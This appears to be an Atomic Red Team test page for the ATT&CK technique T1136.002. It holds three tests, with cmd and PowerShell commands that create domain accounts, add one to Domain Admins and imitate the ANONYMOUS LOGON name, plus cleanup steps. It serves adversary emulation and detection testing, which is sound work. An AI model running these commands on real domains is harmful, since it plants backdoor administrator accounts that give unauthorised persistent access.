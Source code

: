 # T1136.002 - Domain Account
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1136/002)
<blockquote>Adversaries may create a domain account to maintain access to victim systems. Domain accounts are those managed by Active Directory Domain Services where access and permissions are configured across systems and services that are part of that domain. Domain accounts can cover user, administrator, and service accounts. With a sufficient level of access, the <code>net user /add /domain</code> command can be used to create a domain account.

Such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new Windows domain admin user](#atomic-test-1---create-a-new-windows-domain-admin-user)

- [Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON](#atomic-test-2---create-a-new-account-similar-to-anonymous-logon)

- [Atomic Test #3 - Create a new Domain Account using PowerShell](#atomic-test-3---create-a-new-domain-account-using-powershell)


<br/>

## Atomic Test #1 - Create a new Windows domain admin user
Creates a new domain admin user in a command prompt.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136.002_Admin|
| password | Password of the user to create | String | T1136_pass123!|
| group | Domain administrator group to which add the user to | String | Domain Admins|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
net group "#{group}" "#{username}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #2 - Create a new account similar to ANONYMOUS LOGON
Create a new account similar to ANONYMOUS LOGON in a command prompt.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | ANONYMOUS  LOGON|
| password | Password of the user to create | String | T1136_pass123!|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net user "#{username}" "#{password}" /add /domain
```

#### Cleanup Commands:
```cmd
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
<br/>

## Atomic Test #3 - Create a new Domain Account using PowerShell
Creates a new Domain User using the credentials of the Current User

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Name of the Account to be created | String | T1136.002_Admin|
| password | Password of the Account to be created | String | T1136_pass123!|


#### Attack Commands: Run with `powershell`! 


```powershell
$SamAccountName = '#{username}'
$AccountPassword = ConvertTo-SecureString '#{password}' -AsPlainText -Force
Add-Type -AssemblyName System.DirectoryServices.AccountManagement
$Context = New-Object -TypeName System.DirectoryServices.AccountManagement.PrincipalContext -ArgumentList ([System.DirectoryServices.AccountManagement.ContextType]::Domain)
$User = New-Object -TypeName System.DirectoryServices.AccountManagement.UserPrincipal -ArgumentList ($Context)
$User.SamAccountName = $SamAccountName
$TempCred = New-Object System.Management.Automation.PSCredential('a', $AccountPassword)
$User.SetPassword($TempCred.GetNetworkCredential().Password)
$User.Enabled = $True
$User.PasswordNotRequired = $False
$User.DisplayName = $SamAccountName
$User.Save()
$User
```

#### Cleanup Commands:
```powershell
net user "#{username}" >nul 2>&1 /del /domain
```





<br/>
